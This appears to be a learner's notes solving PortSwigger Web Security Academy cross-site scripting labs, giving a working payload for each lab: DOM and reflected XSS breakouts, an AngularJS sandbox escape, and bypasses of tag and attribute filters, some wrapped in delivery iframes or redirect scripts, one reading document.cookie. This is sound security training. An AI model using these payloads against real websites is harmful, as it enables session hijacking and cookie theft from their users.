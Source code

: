 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120249.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```

# Reflected XSS with some SVG markup allowed

![[Pasted image 20240807114732.png]]

```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# Reflected XSS in canonical link tag

```html
<link rel="canonical" href='https://0a27005e04da85618195de30000a0031.web-security-academy.net/?feq46jyh'/>
```

![[Pasted image 20240807120853.png]]

```js
?'accesskey='x'onclick='alert(1)
```

# Reflected XSS into a JavaScript string with single quote and backslash escaped

Single quote gets backslash-escaped, preventing you from breaking out of the string.

```html
</script><script>alert(1)</script>
```


# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. 

```js
\';alert(1)//
```

![[Pasted image 20240808045534.png]]



